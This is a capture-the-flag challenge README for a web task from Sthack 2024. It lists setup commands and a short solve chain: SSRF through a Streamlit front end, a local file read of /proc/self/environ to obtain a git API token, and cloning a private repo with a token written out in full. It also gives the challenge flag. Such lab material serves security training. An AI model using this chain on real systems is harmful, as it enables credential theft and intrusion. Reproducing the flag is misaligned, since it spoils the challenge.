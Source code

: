# Stream Is Lit Isnt It

> Unthread my plot, Chain your bugz, and Remember to Have Fun! ^_^

- Medium / Web / Linux
- Sources are given
    - Remove the `Detail` from the readme
    - Censor the `GIT_API_KEY` and `GIT_REPO_URL` in `docker-compose.yml`
---

```bash
# Debug Time
cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker-compose down --remove-orphans --volumes ; docker-compose up --build --remove-orphans

# Solve
# Open http://127.0.0.1/
# Submit http://backend_2:5000/?dump_me=/proc/self/environ
# Use token & git clone https://gitlab.com:glpat-4dQKhn3be6YmzmfzJbyx@gitlab.com/TheLaluka/totaly_safe_and_private_repo.git
# git diff 5eb01b7
# Flag: chain-your-bugz-tozemoonandback-ffs

# Setup & Recheck
cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker-compose run --rm -it --volume "$PWD:/host" -w /host --entrypoint /bin/bash mlflow -x exploit.sh ; docker-compose down --remove-orphans --volumes ; docker-compose up --build --remove-orphans -d

# Logs
docker-compose logs -f

# Light-Long Auto-Fix
echo '*/30 * * * * root bash -c "cd /opt/sthack-2024-challs/stream-is-lit-isnt-it ; docker-compose run --rm -it --volume /opt/sthack-2024-challs/stream-is-lit-isnt-it:/host -w /host --entrypoint /bin/bash mlflow -x exploit.sh ; docker-compose down --remove-orphans --volumes ; docker-compose up --build --remove-orphans -d"' | sudo tee -a /etc/crontab
```

# Detail

- Abust StreamLit for SSRF
- Abuse SSRF for Local File Read
- Read /proc/self/environ to get git api_key
- Reuse api_key to clone git repo
- Dig past commits to find the flag
